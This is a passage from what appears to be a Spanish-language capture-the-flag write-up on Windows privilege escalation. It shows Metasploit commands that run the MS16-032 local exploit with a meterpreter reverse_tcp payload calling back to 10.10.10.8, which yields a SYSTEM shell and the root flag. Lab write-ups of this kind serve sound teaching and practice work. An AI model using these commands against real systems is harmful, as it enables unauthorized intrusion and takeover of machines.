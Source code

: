     - Servicios mal configurados
        
    - Permisos de archivos inseguros
        
    - Usuarios en grupos privilegiados
        
    - Contraseñas en texto plano
        
    - Auto-logon
        
    - Binaries vulnerables (privesc manual)
        
-  **Tipo de herramienta:**  
    Es una herramienta de **enumeración profunda**, **no explota** directamente nada.
    
-  **Dependencia:**  
    Es autónoma. Solo necesitas ejecutarla en el sistema comprometido.
    
-  **Enfoque:**  
    **Te da pistas** para que tú decidas qué técnica usar (manual o automatizada).


Pasos para usarlo:

```
meterpreter > Ctrl+Z
Background session 1? [y/N]  y
```

Nos salimos del meterpreter y damos lo siguiente:

```
sessions
```

![Pasted image 20250522213209.png](/img/user/imgs/Pasted%20image%2020250522213209.png)
En mi caso eligire cualquiera de las dos sessiones ya que lo hice dos veces.

**set SESSION 3**

Luego damos **run** o **exploit** y se ejecutara.

![Pasted image 20250522213313.png](/img/user/imgs/Pasted%20image%2020250522213313.png)


Despues de probar los paylodas, el que funciono es:

**exploit/windows/local/ms16_032_secondary_logon_handle_privesc**

Que es lo que hace exactamente? -> Esta vulnerabilidad permite al usuario local limitado obtener una shell como NT AUTHORITY\SYSTEM explotando como Windows maneja los handles del servicio de inicio de session secundario.

Requisitos:

- Tener una sesion Meterpreter activa como usuario limitado.
- Sistema vulnerable (comun en Windows 7, windows 8, Server 2008, etc.)
- Compatible con 32 y 64 bits.

Pasos:

```
use exploit/windows/local/ms16_032_secondary_logon_handle_privesc
set SESSION <id de tu session>
set LHOST 10.10.10.8
set PAYLOAD windows/meterpreter/reverse_tcp
run
```

Despues usamos **shell** en el meterpreter y podemos acceder al administrator:

![Pasted image 20250522230037.png](/img/user/imgs/Pasted%20image%2020250522230037.png)

Obtenemos la root.txt en el Administrator.

thanks.